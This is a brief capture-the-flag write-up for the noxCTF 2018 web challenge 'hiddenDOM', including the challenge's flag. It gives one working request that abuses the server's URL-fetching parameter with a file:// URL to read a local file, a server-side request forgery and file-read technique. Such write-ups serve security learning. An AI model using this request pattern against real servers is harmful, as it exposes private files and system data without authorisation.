 # noxCTF 2018 : hiddenDOM

**category** : web

**points** : 670

**solves** : 37

## write-up

Server will get the `target` url for us

And use regex `expression` to grep the lines

This will work `http://chal.noxale.com:5588/index.php?target=file:///var/www/html/flag.txt&expression=/.*/`

`noxCTF{/[h1DD3N]*[55Rf]*[r393X]*/}`

# other write-ups and resources

